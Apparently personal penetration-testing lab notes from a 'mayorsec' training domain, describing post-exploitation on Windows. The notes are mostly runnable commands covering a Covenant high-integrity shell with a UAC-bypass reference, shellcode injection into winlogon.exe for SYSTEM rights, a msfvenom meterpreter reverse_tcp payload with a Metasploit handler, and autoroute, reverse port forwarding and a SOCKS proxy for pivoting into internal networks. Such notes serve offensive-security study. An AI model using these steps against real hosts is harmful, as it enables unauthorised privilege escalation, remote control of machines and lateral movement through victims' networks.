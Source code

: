				- User name: `mayorsec\j.taylor`
- **Full system domain control by the means of RDP**

### Configuring Reverse Port Forwarding
- On `Covenant` obtain a `High` integrity shell
	- Refer too:
		- [[Fodhelper UAC Bypass with Covenant]]
```bash
- **High level privileges**
- Open `Coveneant`
- Start a shell on the Windows host
	- [[Covenant Quick Shell on Windows Host]]
- `powershellimport`
	- `helper.ps1`
- Ensure you using DotNetVersion: `Net35`
	- Copy the encoded payload
- `powershell helper -custom "cmd.exe /c enter_payload_here"`
- Elevate to: **System level privileges**
	- In `Covenant` run:
		- `ps`
		- Find `winlogon.exe` and identify the PID
		- Go to `Launchers`
			- `ShellCode`
				- DotNetVersion: `Net40`
				- `Generate`
				- `Download`
		- `inject`
			- Enter the `winlogon.exe` PID
			- Add the recently generated shellcode *.bin* file
		- `Execute`
```
- In a shell:
	- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=25 -f raw -o /root/Desktop/msf.bin`
	- `msfconsole`
		-  `use exploit/multi/handler`
		- `set payload windows/x64/meterpreter/reverse_tcp`
		- `set lport 25`
		- `set lhost eth0`
		- `exploit -j`
- On `Covenant` in a `High` integrity shell
	- `ps`
		- Find *PID* with a **Sessio0nID** greater than 0
		- `Winlogon` has a *PID* of `612`
	- `inject 612`
		- Attach the created `msfvenom` shellcode
- Back on `Metasploit`
	- `sessions -i 1`
	- `ipconfig`
	- `run autoroute -s 10.120.116.10/24`
	- Verify route is setup:
		- `run autoroute -p`
	- Port forward to access internal network devices that were not accessible before
		- `portfwd add -R -p 2222 -l 443 -L 192.168.3.28`
	- Verify:
		- `portfwd`
	- `CTRL-z`
	- `use auxiliary/server/socks4a`
- `mousepad /etc/proxychains4.conf`
	- Go to bottom of file and verify the port being used
		- `9050`
- Back on `Metasploit`
	- `set srvport 9050`
	- `exploit -j`